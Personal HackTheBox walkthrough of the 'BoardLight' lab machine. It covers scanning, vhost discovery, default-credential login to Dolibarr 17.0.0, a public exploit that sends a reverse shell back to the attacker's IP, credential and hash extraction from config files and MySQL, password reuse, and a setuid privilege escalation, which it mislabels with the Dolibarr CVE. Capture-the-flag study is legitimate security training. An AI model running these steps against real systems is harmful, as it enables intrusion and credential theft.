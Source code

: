 ### NMAP 

`sudo nmap -sC -v -sV -vv -oA nmap-boardlight 10.10.11.11`

![[HackTheBox/Linux/attachments/Pasted image 20250506212022.png]]
- 22, 80

Navigate to the website 

![[HackTheBox/Linux/attachments/Pasted image 20250506212145.png]]

Attempt the `/index.html`

![[HackTheBox/Linux/attachments/Pasted image 20250506212241.png]]

Attempt the `/index.php`

![[HackTheBox/Linux/attachments/Pasted image 20250506212325.png]]

Checking out the links - about.php, do.php, etc.

Found host name
![[HackTheBox/Linux/attachments/Pasted image 20250506212613.png]]
- add this `board.htb` to `/etc/hosts`

![[HackTheBox/Linux/attachments/Pasted image 20250506212719.png]]

Navigate to `http://board[.]htb` now

![[HackTheBox/Linux/attachments/Pasted image 20250506212829.png]]

Playing in this text box and intercepting request with Burp

![[HackTheBox/Linux/attachments/Pasted image 20250506213257.png]]

Set up nc listener 

```
nc -lvnp 8000
```

Send request with burp

### Gobuster Virtual Hosts

Enumerate virtual hosts 

```
gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
![[HackTheBox/Linux/attachments/Pasted image 20250506213715.png]]

Found `crm.board.htb`

![[HackTheBox/Linux/attachments/Pasted image 20250506215835.png]]
- add this to `/etc/hosts`

Navigate to this website and see a login page 
![[HackTheBox/Linux/attachments/Pasted image 20250506215940.png]]
- Dolibarr 17.0.0

Google this version for exploits and see a [PoC exploit on GitHub](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

![[HackTheBox/Linux/attachments/Pasted image 20250506220058.png]]
Exploit asks for username, password..

Googling default dolibarr creds and they are `admin:admin`

Trying these creds to login and they do work!

Now we can try the exploit. 

Git clone the repo.

Run the exploit to see what arguments we need to supply. 

![[HackTheBox/Linux/attachments/Pasted image 20250507193029.png]]

Here is the exploit

```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.8 9001
```

Set up nc listener and catch the reverse shell

![[HackTheBox/Linux/attachments/Pasted image 20250507193227.png]]
Basically the exploit ends up sending a php reverse shell in the middle of creating a new site and capitalizing one letter pHp
![[HackTheBox/Linux/attachments/Pasted image 20250507194051.png]]

Re-doing the shell with a trusty one: [ivan sincek/php reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

❗got initial access❗

### Search for config / credentials

There is a conf directory 

![[HackTheBox/Linux/attachments/Pasted image 20250507195159.png]]

```
cat conf.php
```

We found some creds in this configuration file 

![[HackTheBox/Linux/attachments/Pasted image 20250507195313.png]]
![[HackTheBox/Linux/attachments/Pasted image 20250507195334.png]]
- save these creds to a file 

Check the backup file conf.php.old as well, but there's no password.

### Login to MySQL

```
mysql -u dolibarrowner -p 
```
![[HackTheBox/Linux/attachments/Pasted image 20250507195535.png]]
Select the database name
```
use dolibarr
```

Show tables 
```
show tables;
```

![[HackTheBox/Linux/attachments/Pasted image 20250507195716.png]]

Describe llx_user table
```
describe llx_user;
```

![[HackTheBox/Linux/attachments/Pasted image 20250507195749.png]]

Grab login, passwords, pass crypted 

```
select login, pass, pass_crypted from llx_user;
```

![[HackTheBox/Linux/attachments/Pasted image 20250507195911.png]]
- more creds

Normally -> go try to crack the hashes. Not the path here though.

Try to find who created the dolibarr user 

```
select rowid, login, pass, pass_crypted from llx_user;
```

![[HackTheBox/Linux/attachments/Pasted image 20250507204811.png]]
- nothing too interesting here

Enumerate users on the box 

```
cat /etc/passwd | grep 'sh$'
```

Found larissa user 
![[HackTheBox/Linux/attachments/Pasted image 20250507204937.png]]

Attempt to switch to the larissa user with the mysql password

```
su - larissa
```

![[HackTheBox/Linux/attachments/Pasted image 20250507205058.png]]

Now we have ❗initial access❗ as larissa

------------------------------------
Side track: Running linpeas and finding setuid binaries 

Find SetUID binaries

```
find / -perm -4000 2>/dev/null
```

![[HackTheBox/Linux/attachments/Pasted image 20250507205408.png]]

Some unique ones here 
![[HackTheBox/Linux/attachments/Pasted image 20250507205637.png]]

Attempt to get the version by executing enlightenment_sys with --help 

![[HackTheBox/Linux/attachments/Pasted image 20250507205732.png]]
- no dice 

Execute strings against it to find version 

![[HackTheBox/Linux/attachments/Pasted image 20250507205817.png]]
- no dice 

Run 
```
dpkg -l | grep -i enlight
```

![[HackTheBox/Linux/attachments/Pasted image 20250507205925.png]]
- Version of enlightenment - 0.23.1-4

Look for CVEs against enlightenment  

![[HackTheBox/Linux/attachments/Pasted image 20250507210047.png]]
- got one for local priv esc

Looking at the exploit code 
![[HackTheBox/Linux/attachments/Pasted image 20250507210143.png]]

Simplifying exploit a bit and executing this as www-data user

![[HackTheBox/Linux/attachments/Pasted image 20250507210518.png]]

This action isn't allowed as www-data user, but does work as larissa user. 

![[HackTheBox/Linux/attachments/Pasted image 20250507210630.png]]
after executing this exploit - CVE-2023-30253..
⭐ got root ⭐ 

---------------------------------------------

### Beyond Root 

**Why could Larissa execute the binary, but www-data couldn't? 

Because Larissa is part of the adm group

**How does this exploit work?**

Checking out the git log to see the patch logic lol

![[HackTheBox/Linux/attachments/Pasted image 20250507211126.png]]
